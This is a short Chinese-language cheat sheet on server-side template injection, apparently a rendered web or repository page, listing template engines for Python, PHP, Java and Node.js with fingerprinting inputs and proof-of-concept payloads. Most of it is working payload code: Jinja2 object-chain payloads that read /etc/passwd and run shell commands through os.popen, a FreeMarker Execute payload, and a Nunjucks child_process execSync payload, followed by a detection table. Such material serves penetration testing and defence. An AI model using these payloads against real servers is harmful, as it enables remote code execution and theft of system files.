 模板引擎速查表与语法指纹

| 语言 | 常见引擎 | 识别语法 | 快速 PoC |
| --- | --- | --- | --- |
| Python | Jinja2 / Mako | `{{7*7}}` → `49` | `{{ ''.__class__.__mro__[1].__subclasses__()[...]` |
| PHP | Twig / Smarty | `{{7*7}}` / `{{$smarty}` | `{{_self.env.setCacheDir("/tmp")}}` |
| Java | FreeMarker | `${7*7}` | `${"freemarker.template.utility.Execute"?new()("id")}` |
| Node.js | Nunjucks / EJS | `<%= 7*7 %>` | `{{range.constructor("return process.mainModule.require('child_process').execSync('id')")()}}` |




### Jinja2 经典利用链（含命令执行）
> 以 Python + Flask（Jinja2）为示例
>

基本信息泄露

```python
{{ config.items() }}
```

RCE（Python3 链）

```python
{% set x=globals.__builtins__.open('/etc/passwd').read() %}{{x}}
```

最通用的 os.popen 链

```python
{{self.__init__.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

| Stage | Explanation |
| --- | --- |
| `self` | Jinja2 内建对象 |
| `.__init__` | ⇒ 函数对象 |
| `.__globals__` | ⇒ 全局命名空间 |
| `.__builtins__.os` | 获得 os 模块 |
| `popen` | ⇒ RCE |




### 漏洞检测


漏洞检测

| 测试点 | 操作 | 现象 |
| --- | --- | --- |
| 数学表达式 | `{{7*7}}` | 输出 `49` 或异常 |
| 报错信息 | `{{7/0}}` | 泄露模板引擎类型、源码路径 |
| 对象链 | `{{ ''.__class__ }}` | 返回 `<class 'str'>` 等 |

